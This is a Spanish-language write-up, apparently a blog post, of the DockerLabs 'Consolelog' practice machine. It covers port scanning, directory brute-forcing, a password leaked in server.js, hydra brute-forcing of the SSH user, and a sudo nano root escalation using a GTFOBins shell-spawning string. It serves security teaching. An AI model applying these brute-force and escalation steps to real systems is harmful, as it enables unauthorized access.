 ```yaml
---
layout: post
title: DockerLabs - Consolelog
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, ]
media_subpath: "/assets/img/posts/dockerlabs_consolelog"
summary: "Una guía práctica paso a paso para aprender a integrar un SIEM en un entorno de Active Directory local."
image:
  path: main.webp
published: false
---
```


## introducción

En este laboratorio se practican temas como:

- Filtración de información sensible
- Reutilización de credenciales
- Explotación de binarios con permisos SUDO


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 15:03 GMT
Initiating ARP Ping Scan at 15:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:03, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 5000/tcp on 172.17.0.2
Discovered open port 3000/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:03, 9.88s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3000/tcp open  ppp
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.17 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ nmap -sCV -p80,3000,5000 172.17.0.2                           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 15:03 GMT
Nmap scan report for 172.17.0.2
Host is up (0.000063s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Mi Sitio
|_http-server-header: Apache/2.4.61 (Debian)
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.37 seconds
```

## análisis

Al acceder al puerto 80 de la maquina, nos encontramos con la siguiente pagina web:

![Desktop View](/20251026160612.webp){: width="972" height="589" .shadow}

Si miramos en el código de la pagina, encontramos que el botón, al ser accionado, lanza el método `authenticate()` del fichero `authenticate.js`:

![Desktop View](/20251026160641.webp){: width="972" height="589" .shadow}

Dicho método nos da algunas pistas de por donde podemos seguir:

![Desktop View](/20251026160731.webp){: width="972" height="589" .shadow}

Si tratamos de acceder al recurso llamado `/recurso/`, vemos que nos da un error:

![Desktop View](/20251026160809.webp){: width="972" height="589" .shadow}

Por ello, probamos algo diferente, que en este caso es tratar de obtener por fuerza bruta otros recursos disponibles:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 234]
/backend              (Status: 301) [Size: 310] [--> http://172.17.0.2/backend/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
```

Nos encontramos con el recurso `backend`, en el que nos listan lo que es la carpeta del servicio desplegado en el puerto 3000 de la maquina:

![Desktop View](/20251026162205.webp){: width="972" height="589" .shadow}

En el fichero `server.js` encontramos una contraseña:

![Desktop View](/20251027005414.webp){: width="972" height="589" .shadow}

## explotación

Dado que tenemos una contraseña (que suponemos que será de SSH), pero no el usuario, procedemos a tratar de obtenerlo por fuerza bruta:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ hydra -L /usr/share/seclists/Passwords/rockyou.txt -p lapa******************************** ssh://172.17.0.2:5000 -t 64 -I 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-26 15:43:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:14344399/p:1), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[5000][ssh] host: 172.17.0.2   login: l****   password: lapa********************************
```

Teniendo las credenciales, nos conectamos por SSH:

![Desktop View](/20251027005115.webp){: width="972" height="589" .shadow}

## escalada de privilegios

Comprobando los permisos SUDO, encontramos que el usuario puede ejecutar el binario `/usr/bin/nano` como el usuario `root`:

```bash
l*****@dfebfa8554fa:~$ sudo -l
Matching Defaults entries for l***** on dfebfa8554fa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User l**** may run the following commands on dfebfa8554fa:
    (ALL) NOPASSWD: /usr/bin/nano
```

Comprobamos en [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) que podemos obtener una consola como el usuario `root` realizando las siguientes acciones:

![Desktop View](/20251026164557.webp){: width="972" height="589" .shadow}

La secuencia es: [Ctrl+R] + [Ctrl+X] + la cadena `reset; sh 1>&0 2>&0`

![Desktop View](/20251026164922.webp){: width="972" height="589" .shadow}

Una vez introducido, vemos que obtenemos la consola:

![Desktop View](/20251027010031.webp){: width="972" height="589" .shadow}

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>
